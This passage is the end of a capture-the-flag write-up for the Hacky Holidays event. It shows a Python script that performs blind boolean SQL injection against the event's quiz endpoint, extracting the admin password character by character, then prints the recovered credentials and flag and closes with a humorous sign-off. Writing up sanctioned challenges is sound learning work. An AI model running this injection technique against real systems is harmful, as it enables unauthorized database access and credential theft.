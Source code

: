 ```python

def search_password(password):
    for c in printable:
        if c == '_' or c == '%':
            c = "\\" + c
        post_data = { "name" : "admin' and EXISTS (SELECT * FROM admin WHERE username LIKE 'admin' and password LIKE '{}{}%') -- -".format(password,c) } 
        r=requests.post('https://hackyholidays.h1ctf.com/evil-quiz', data = post_data, headers=headers, cookies=cookies)
        r2=requests.get('https://hackyholidays.h1ctf.com/evil-quiz/score', cookies=cookies)
        if r2.text.find("is 0 other player(s)") == -1:
            password += c
            print("new char found: " +password)
            search_password(password)
        
        

search_username(base_username)
search_password(base_password)
```
Credentials: _admin:S3creT_p4ssw0rd-$_
Flag is secured! Quick side note: I learned that using `LIKE BINARY  'strin%'` statements allows you to have a case sensitive query (crucial for this challenge)

` flag{6e8a2df4-5b14-400f-a85a-08a260b59135}`


Prologue
---------------------
What can I say, what I thought was going to be another normal CTF event turned out to be much much more.
The Grinch is out and I evolved. It's a win-win in my books
Every story has an end and this is it. Here's a closing selfie I took right before writing this report/story/novel. Hope you enjoy it (I'm the one in the middle if it wasn't clear)

*Legal disclaimer: my lawyer wanted me to say this.*
 *No drugs or any other illegal substances were used in the process of writing this report (or in any other moment per say)*

{F1140052}



On a serious note though,
I had a blast and thanks to Adam, @nahamsec, and everyone else involved for making this. Shoutout also to my partner in crime @cranelab.
Hope you all had a good laugh reading this and I wish you all the best.

I'm out,
@thezoomer

## Impact

Depending on what side you're on, impact may vary. Use with caution.
